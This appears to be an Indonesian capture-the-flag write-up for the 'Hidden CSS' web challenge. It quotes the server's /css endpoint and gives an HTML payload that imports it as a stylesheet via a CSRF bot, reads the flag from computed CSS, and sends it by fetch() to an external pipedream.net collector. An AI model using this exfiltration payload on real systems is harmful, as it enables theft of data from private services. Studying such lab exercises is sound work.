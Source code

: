 # Web
## Hidden CSS - web
### Description
Can you exfiltrate the flag from the private server?

Source code: [link](https://drive.google.com/file/d/1GGoxSjgLRZ3S_N6CdNX7rq4GNw96Dnpw/view)
### Exploit
Pada challenge ini kita akan diberikan source code. Di dalam source code tersebut kita akan mendapatkan bahwa flag terdapat pada `private-server.js`.

```javascript 
app.get('/css', function(req, res) {
    let prefix = '' + req.query.prefix
    console.log('visit to /css?prefix='+prefix)
    for (c of prefix) {
        const charCode = c.charCodeAt(0)
        if (charCode < 32 || charCode > 126) {
            prefix = 'illegal characters seen'
            break
        }
    }

    if (prefix.length > 20) {
        prefix = 'your prefix is too long'
    }

    res.setHeader('X-Content-Type-Options', 'nosniff');
    res.setHeader('Content-Type', 'text/css');
    res.send(prefix + FLAG);
});
```
Di source code diatas kita bisa melihat security header yaitu `X-Content-Type-Options: nosniff` dan juga `Content-Type: text/css`, karna security header tersebut kita hanya bisa meload content sebagai css.

Kita bisa mengaksesnya dengan membaut server kita sendiri dimana nanti dari server kita bisa mengimport css dari `server-private` ke server kita dan memanfaatkan bot di `public-server` untuk melakukan csrf.

Pertama kita akan mebuat server yang didalamnya berisi payload html seperti berikut.

```html 
<!DOCTYPE html>
<html lang="en">

<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
    <link rel="stylesheet" href="http://0:1337/css?prefix=.foo{ content: '">
</head>

<body>
    <div class="foo"></div>
    <script>
        const foo = document.querySelector('.foo')
        const style = getComputedStyle(foo)
        fetch("https://eomv1kji1f5ppkx.m.pipedream.net?"+style.content) 
    </script>
</body>

```